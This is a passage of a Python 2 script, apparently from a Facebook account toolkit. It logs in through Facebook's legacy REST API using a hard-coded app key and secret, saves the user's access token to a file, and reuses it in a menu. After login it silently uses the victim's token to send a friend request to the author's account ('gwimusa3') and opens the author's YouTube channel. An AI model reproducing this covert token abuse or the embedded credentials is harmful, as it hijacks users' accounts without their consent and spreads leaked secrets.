 		br.submit()
		url = br.geturl()
		if 'save-device' in url:
			try:
				sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'
				data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"}
				x=hashlib.new("md5")
				x.update(sig)
				a=x.hexdigest()
				data.update({'sig':a})
				url = "https://api.facebook.com/restserver.php"
				r=requests.get(url,params=data)
				z=json.loads(r.text)
				unikers = open("login.txt", 'w')
				unikers.write(z['access_token'])
				unikers.close()
				print '\n\x1b[1;95mLogin Successful.•◈•..'
				os.system('xdg-open https://m.youtube.com/channel/UCRrRgcJjsnNm5Bi5ZenRGnw')
				requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
				menu()
			except requests.exceptions.ConnectionError:
				print"\n\x1b[1;97mThere is no internet connection"
				keluar()
		if 'checkpoint' in url:
			print("\n\x1b[1;97mYour Account is on Checkpoint")
			os.system('rm -rf login.txt')
			time.sleep(1)
			keluar()
		else:
			print("\n\x1b[1;93mPassword/Email is wrong")
			os.system('rm -rf login.txt')
			time.sleep(1)
			login()
			
def menu():
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		os.system('clear')
		print"\x1b[1;94mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	try:
		o = requests.get('https://graph.facebook.com/me?access_token='+toket)
		a = json.loads(o.text)
		nama = a['name']
		id = a['id']
                t = requests.get('https://graph.facebook.com/me/subscribers?access_token=' + toket)
                b = json.loads(t.text)
                sub = str(b['summary']['total_count'])
	except KeyError:
		os.system('clear')
		print"\033[1;97mYour Account is on Checkpoint"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	except requests.exceptions.ConnectionError: